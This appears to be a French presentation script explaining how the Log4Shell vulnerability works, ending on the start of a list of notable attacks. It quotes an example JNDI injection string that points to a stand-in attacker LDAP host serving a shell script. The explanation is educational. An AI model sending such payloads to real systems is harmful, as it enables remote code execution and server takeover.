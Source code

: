 
## 3. **Description technique de l’attaque : Comment fonctionne Log4Shell ?**
   - **Durée : 3 minutes**

Nous allons maintenant détailler le fonctionnement de l'attaque Log4Shell, en utilisant cette **seconde image** pour illustrer les étapes du processus.

Log4Shell exploite une fonctionnalité de **lookup dynamique** dans Log4J. Cette fonctionnalité permet à Log4J d’exécuter des expressions insérées dans des champs comme le **User-Agent** ou les **paramètres HTTP**. Malheureusement, cela signifie que si un attaquant injecte une chaîne malveillante, Log4J peut interpréter et **exécuter cette chaîne**, entraînant une **exécution de code à distance**.

Voici comment l’attaque se déroule en détail, en suivant les étapes illustrées dans l’image :

1. **Injection de la chaîne malveillante** : L’attaquant envoie une requête contenant une chaîne malveillante dans un champ comme le **User-Agent**. Dans l’image, la chaîne ressemble à ceci : `${jndi:ldap://sitedupirate[.]com/script-dangereux.sh}`. Ce que cela signifie, c’est que l’attaquant demande à Log4J de contacter un serveur **LDAP** (Lightweight Directory Access Protocol), qui est sous le contrôle du pirate.

2. **Appel à JNDI** : **JNDI** (**Java Naming and Directory Interface**) est une interface Java qui permet de retrouver des objets distants via des protocoles comme **LDAP** ou **DNS**. Log4J voit la chaîne `${jndi:ldap://...}`, contacte le serveur **LDAP** du pirate et tente de charger un objet Java depuis ce serveur.

3. **Exécution du code malveillant** : Une fois que le serveur vulnérable a contacté le serveur du pirate, celui-ci renvoie un **objet Java sérialisé** contenant du code malveillant, qui est ensuite exécuté directement sur le serveur vulnérable. Ce processus permet à l'attaquant de **prendre le contrôle total** du serveur et d'exécuter des scripts comme le `script-dangereux.sh` visible dans l’image.

**Pourquoi cette attaque est-elle si redoutable ?**
- **Surface d’attaque étendue** : Le pirate peut injecter cette chaîne dans de nombreux points d'entrée de l'application, que ce soit dans l'URL, les headers HTTP, ou même les formulaires de saisie. Tout endroit où Log4J peut enregistrer des logs devient potentiellement dangereux.
- **Exploitation facile** : Un simple accès à l’application via une requête HTTP suffit pour injecter du code.
- **Exécution à distance** : Le serveur va récupérer et exécuter du code Java à partir d’un serveur contrôlé par l'attaquant. Cela donne un contrôle total au pirate sur le serveur vulnérable.

---

## 4. **Attaques notables utilisant Log4Shell**
   - **Durée : 2 minutes**

Depuis sa découverte, **Log4Shell** a été largement exploité par des cybercriminels et des groupes malveillants. Voici quelques exemples d’attaques notables :

1. **Attaque sur le ministère de la Défense belge (décembre 2021)**  
   Le **ministère de la Défense belge** a été contraint de fermer certaines parties de son réseau à la suite d’une attaque exploitant Log4Shell. Cet incident a montré que même les infrastructures gouvernementales sensibles étaient des cibles, et l’impact a été suffisamment grave pour nécessiter une interruption des services.
